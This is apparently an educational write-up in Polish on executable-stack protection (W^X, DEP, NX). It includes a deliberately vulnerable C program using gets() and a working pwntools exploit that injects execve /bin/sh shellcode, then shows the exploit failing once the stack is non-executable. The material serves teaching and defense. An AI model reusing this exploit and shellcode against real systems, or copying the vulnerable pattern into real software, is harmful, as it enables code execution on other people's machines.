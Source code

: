 # 1.Executable space protection

### 1.1 Różne sposoby radzenia sobie z obszarami pamięci, do którym można pisać i które można wykonywać

Dość ważny aspektem bezpieczeństwa jest rozdzielanie uprawnień obszarom pamięci. Pamięć oznaczona jednocześnie jako W (write) i X (execute) stwarza realne zagrożenie, bo pozwala na wykonanie dowolnego kodu przez atakującego.

Problem rozwiązywany jest zarówno sprzętowo, jak i w oprogramowaniu.

Ważna jest polityka (W^X) - mówiąca, że dana strona pamięci może być tylko i wyłącznie albo wykonywalna, albo można do niej pisać. Polityka ta została wprowadzona w OpenBSD 3.3 w 2003 roku.

Odpowiedzią Microsoftu było DEP (Data Execution Preventon) wprowadzone w Windows XP zawierające szereg zabezpieczeń.

Obecnie sprzętowym sposobem realizacji jest tak zwany `NX-bit` odpowiadający właśnie za wykonywalność pamięci. Z tego właśnie korzystać jądro Linuxa, jeżeli procesor obsługuje tą funkcje.

W innym przypadku możliwa jest również emulacja tej funkcjonalności (przykład Exec Shield i PaX)

Na Linuxie do ręcznego ustawienia uprawnień obszaru służy syscall `mprotect()`.

### 1.2 Opis

`gcc` defaultowo włącza non-executable stack - można go wyłączyć flaga `-z execstack`.

Tak samo zachowuje się `clang`. 

Jest to argument przekazywany do linkera. 


Obecnie niektóre stare binarki linuxowe mogą wymagać wykonywalnego stacku dlatego ta opcja może zostać włączona. 
Wykonywalny stack jest pokonywany za pomocą oznaczenia pamięci stacku jako niewykonywalnej. Nie ma tu żadnego spadku wydajności, jedynie ewentualnie problemy z kompatybilnością ze starymi plikami.

Wyłączenie wykonywalnego stosu jest dość podstawową metodą obrony przez eksploitacją binarną aplikacji i następne metody uwzględniają tą metodę jako uwzględnioną.

Oznaczenie pamięci jako niewykonywalna obecnie najcześciej odbywa się za pomocą ustawienia flagi `NX` w tablicy strony.

Implementacje na różnych systemach nie różnia się.

### 1.3 Proof of concept
Pierwszym omówionym exploitem i obroną przed nim bedzie wykonywalny stack.

Kod programu, który bedzie exploitować jest następujący:

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    if(strlen(name) > 12) {
        puts("Nope, it's too long for me");
        exit(1);
    }
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
    return 0;
}
```

Błędem jest użyta tu funkcja `gets()` i pozornie działające sprawdzenie długości inputu.

Dokumentacja `strlen()` mówi, że funkcja sprawdza dlugość do otrzymania `x00`. Taki znak możemy dokleić, aby przepełnić bufor.

Używając pythona i pakietu pwntools postaram się wykorzystać ten błąd.

Schemat exploitacji jest następujący:

* ustalić miejsce w pamięci, w którym nadpisujemy adres powrotu
* ustalić miejsce w pamięci, w którym znajduje się bufor
* nadpisać adres powrotu adresem bufora, w którym znajduje się nasz kod.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15
```

Exploit omija sprawdzenie. 

W debuggerze ustaliłem, że miejsce w pamięci do którego bedziemy pisać każdą następna wiadomość to rejestr `eip` przetrzymujący adres powrotu funkcji.

Następnie za pomocą gdb ustaliłem, w którym miejscu można nadpisać adres powrotu oraz adres, w którym zaczyna się bufor.

Adres ten jest stały, bo nie używamy ani PIE ani ASLR.

Dopisując do naszej wiadomości adres bufora powiększony o offset generowany przez poprzednie wiadomości uda nam się skierować wykonywanie programu na złośliwy kod, który jesteśmy w stanie wstrzyknąć za adresem.

```python
name += "\x20\xd2\xff\xff"
```


W tym momencie wystarczy do stringa name dokleić shellcode wywołujący execve i odpowiednimi parametrami. Shellcode ten zaczerpnałem ze strony `http://shell-storm.org/shellcode/files/shellcode-811.php`.

Jest to shellcode w assemblerze ładujący odpowiednie argumenty do odpowiednich rejestrów i wywołujący funkcje execve syscallem z argumentami wskazującymi na `bin/sh`.

```python
name += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Cały exploit wygląda następująco:

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15 # inject aaaas till eip
name += "\x20\xd2\xff\xff" # inject address of shellcode to eip
name += "\x31\xc0\x50\x68\x2f\x2f\x73"+"\x68\x68\x2f\x62\x69\x6e\x89"+"\xe3\x89\xc1\x89\xc2\xb0\x0b"+"\xcd\x80\x31\xc0\x40\xcd\x80" #shellcode to spawn shell

p.sendline(name)

p.interactive()

```


Exploit działa na programie skompilowanym z wykonywalnym stackiem. Widzimy tu interaktywny shell.

![img.png](img.png)

Natomiast skompilowany bez flagi pozwalającej na wykonywanie kodu na stacku nie działa. Program zakończył działanie sygnałem SIGSEGV.

![img_1.png](img_1.png)


### 1.4 Wnioski

Kontrolowanie tego czy dane miejsce w pamięci może wykonywać kod jest ważna i pozwala zapobiegać najprostszym atakom typu buffer overflow. Jednak nie jest to remedium na wszystkie ataki.

Ataki typu ROP lub RET2LIBC, które bedą prezentowane w dalszej częsci projektu mogą być wykonane z `nonexec` stosem.

